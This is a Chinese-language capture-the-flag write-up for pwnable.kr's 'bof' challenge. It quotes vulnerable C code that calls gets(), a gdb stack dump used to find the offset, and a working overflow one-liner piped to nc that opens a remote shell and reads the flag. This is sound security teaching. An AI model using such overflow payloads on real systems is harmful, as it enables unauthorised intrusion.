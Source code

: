 # Solution
## 描述
```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```
## 问题分析
下载`bof.c`如下
```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
可以看到当`key == 0xcafebabe`时，可以获得`shell`，于是想办法令`key = 0xcafebabe`。

注意到使用了`gets`，这个函数不会检查输入长度，于是考虑使用溢出的方法，于是我们试图找到`overflowme`和`key`的地址，如果`overflowme`在`key`前面，则我们可以通过溢出的方式覆写`key`。

使用`gdb`调试`./bof`，执行到`gets`时，输入`XXXXXXXXXXXX`，定位`overflowme`的地址。考虑到函数内定义的局部变量和函数参数都在栈中，使用`x/50xw $sp`查看栈空间
```
(gdb) x/50xw $sp
0xffffcdc0:	0xffffcddc	0xffffce64	0xf7fb7000	0x0000c287
0xffffcdd0:	0xffffffff	0x0000002f	0xf7e13dc8	0x58585858
0xffffcde0:	0x58585858	0x58585858	0x00000000	0x5655549d
0xffffcdf0:	0x00000001	0x00000003	0x56556ff4	0x44e08c00
0xffffce00:	0xf7fb7000	0xf7fb7000	0xffffce28	0x5655569f
0xffffce10:	0xdeadbeef	0x56555250	0x565556b9	0x00000000
0xffffce20:	0xf7fb7000	0xf7fb7000	0x00000000	0xf7e1f637
0xffffce30:	0x00000001	0xffffcec4	0xffffcecc	0x00000000
0xffffce40:	0x00000000	0x00000000	0xf7fb7000	0xf7ffdc04
0xffffce50:	0xf7ffd000	0x00000000	0xf7fb7000	0xf7fb7000
0xffffce60:	0x00000000	0xcbe7cffe	0xf79041ee	0x00000000
0xffffce70:	0x00000000	0x00000000	0x00000001	0x56555530
0xffffce80:	0x00000000	0xf7feeff0
```
找到`0xdeadbeef`在`0xffffce10`，于是`key`的地址是`0xffffce10`

然后找12个连续的`58`，以此定位`overflowme`的地址是`0xffffcddc`

于是只需要令输入串等于`52`个任意字符加上`0xcafebabe`就可以取得`shell`了

## 问题解决
使用python生成攻击字符串，用管道输入到`nc`中即可。使用命令`(python -c 'print "X" * 52 + "\xbe\xba\xfe\xca"'; cat) | nc pwnable.kr 9000`，注意管道的前边不止有生成字符串的脚本，还有`cat`命令，因为我们只是得到了`shell`，还需要`cat`向远端的`shell`输入命令

然后输入`cat flag`即可

```
~$ (python -c 'print "X" * 52 + "\xbe\xba\xfe\xca"'; cat) | nc pwnable.kr 9000
$ cat flag
daddy, I just pwned a buFFer :)
```